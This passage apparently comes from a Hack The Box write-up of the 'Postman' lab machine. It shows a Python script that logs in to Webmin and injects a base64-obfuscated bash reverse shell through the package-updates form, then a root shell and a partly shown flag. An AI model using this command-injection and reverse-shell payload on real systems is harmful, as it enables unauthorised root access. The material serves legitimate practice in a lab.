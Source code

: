 ```python wrap=false title="Script de S4vitar"
    s = requests.session()
    s.verify = False

    data_post = {
        'user': 'Matt',
        'pass': 'computer2008'
    }

    headers = {
        'Cookie': 'redirect=1; testing=1; sid=x'
    }

    r = s.post(login_url, data=data_post, headers=headers)
    
    post_data = [('u', 'acl/apt'),('u', ' | bash -c "echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC41LzQ0MyAwPiYx | base64 -d | bash"'), ('ok_top', 'Update Selected Packages')]

    headers = {
        'Referer': 'https://10.10.10.160:10000/package-updates/?xnavigation=1'
    }

    r = s.post(update_url, data=post_data, headers=headers)
    print(r.text)

if __name__ == "__main__":
    makeRequest()
```

```bash
root@Postman:/usr/share/webmin/package-updates/# whoami
root
root@Postman:~# cat root.txt 
1ef6255998db7351...
```

[Pwned!](https://labs.hackthebox.com/achievement/machine/1992274/215)

---